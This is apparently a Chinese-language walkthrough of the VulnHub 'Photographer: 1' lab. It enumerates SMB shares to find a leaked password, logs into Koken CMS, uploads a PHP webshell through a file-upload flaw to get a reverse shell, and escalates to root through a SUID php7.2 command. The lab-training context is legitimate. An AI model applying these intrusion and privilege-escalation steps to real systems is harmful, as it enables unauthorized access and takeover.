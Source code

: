 # Photographer: 1

2024-5-22 https://www.vulnhub.com/entry/photographer-1,519/

difficulty: Beginner / Intermediate

## IP

192.168.5.30

## Scan

Open Port -> 80,139,445,8000

```
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: daisa ahomi
|_http-generator: Koken 0.22.24
```

先看看 SMB 有什么信息：

```
enum4linux -a 192.168.5.30

//192.168.5.30/sambashare	Mapping: OK Listing: OK Writing: N/A

smbclient //192.168.5.30/sambashare -N
```

发现 2 个文件: mailsent.txt 和 wordpress.bkp.zip

mailsent.txt 是一个邮件：

```
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

可能得到一个用户名 daisa，密码不知道，看看另外一个备份文件包有什么内容，配置文件中没看到密码信息。

直接看 80 的 web 服务吧，首页上好像发现了一个用户名 v1n1v131r4，源代码没看到信息，直接 gobuster 扫目录，也没看到什么隐藏信息，也没看到登陆页面。

在看看 8000 对应的 web 服务，看到底部的 CMS 版本为 Built with Koken，先寻找下 Koken 有没有什么漏洞可以利用。

找到了一个文件上传漏洞可以 RCE，https://www.exploit-db.com/exploits/48706 但是需要有登陆的用户凭据。

找到了 Koken 的登陆窗口，http://192.168.5.30:8000/admin/

需要以电子邮件登陆，看到上面的 mailsent.txt 中有电子邮件，daisa@photographer.com ，用这个当用户名，然后使用 babygirl 作为密码，看看能不能登陆。

结果能登陆成功，那么就可以利用前面发现的 upload 漏洞，上传 php 后门代码。

按照步骤，将后门代码文件修改名为 8888.php.jpg，使用 bp 进行拦截，在修改回 php 后缀。

先在 kali 上监听 8888 端口。http://192.168.5.30:8000/admin/#/library/content 右下角有 Import Content ，点击这个按钮，上传 8888.php.jpg，然后在 bp 中拦截，将文件名改成 8888.php，然后放开拦截，webshell 就会自动激活，然后就能得到反弹的 shell。

得到 shell 后，使用 python 升级 tty。

用户枚举：

```
www-data@photographer:/var/www/html$ cat /etc/passwd|grep bash
root:x:0:0:root:/root:/bin/bash
agi:x:1001:1001:,,,:/home/agi:/bin/bash
daisa:x:1000:1000:daisa:/home/osboxes:/bin/bash
```

得到了第一个 user flag：

```
www-data@photographer:/home/daisa$ cat user.txt
d41d8cd98f00b204e9800998ecf8427e
```

寻找提权到 root 的方法，suid 发现 /usr/bin/php7.2，进行利用：

`````
www-data@photographer:/home/daisa$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# cd /root
# cat proof.txt

                                .:/://::::///:-`
                            -/++:+`:--:o:  oo.-/+/:`
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`
                       :o:``oyo/o`. `      ```/-so:+--+/`
                     -o:-`yh//.                 `./ys/-.o/
                    ++.-ys/:/y-                  /s-:/+/:/o`
                   o/ :yo-:hNN                   .MNs./+o--s`
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-
                        ./+:`:yh:dso/.+-++++ss+h++.:++-
                           -/+/-:-/y+/d:yh-o:+--/+/:`
                              `-///////////////:`


Follow me at: http://v1n1v131r4.com

d41d8cd98f00b204e9800998ecf8427e
`````
